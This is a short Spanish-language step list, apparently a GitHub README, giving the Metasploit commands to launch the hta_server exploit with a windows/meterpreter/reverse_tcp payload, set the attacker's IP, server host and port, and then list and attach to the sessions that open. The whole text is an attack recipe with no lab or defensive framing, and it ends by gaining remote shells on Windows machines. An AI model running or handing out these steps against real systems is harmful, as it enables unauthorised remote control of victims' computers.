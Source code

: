 1. Iniciamos msfconsole -> `msfconsole`
2. Usamos el exploit HTA_SEVER -> `use exploit/windows/misc/hta_server`
3. Conectamos nuestra IP -> `set lhost (tu ip)`
4. Establecemos el reverse_tcp -> `set payload windows/meterpreter/reverse_tcp`
5. Establecemos el host del servidor (nosotros) -> `set srvhost (tu ip)`
6. Establecemos el puerto (cualquiera que no este en uso) -> `set lport 8111`
7. Empezamos el exploit -> `exploit`
8. Y ya podemos ver los comandos que podemos usar usando el comando `help`
9. Para ver las sesiones activas -> `sessions`
10. Para conectarnos a una session -> `sessions -i (id de la sesion)`
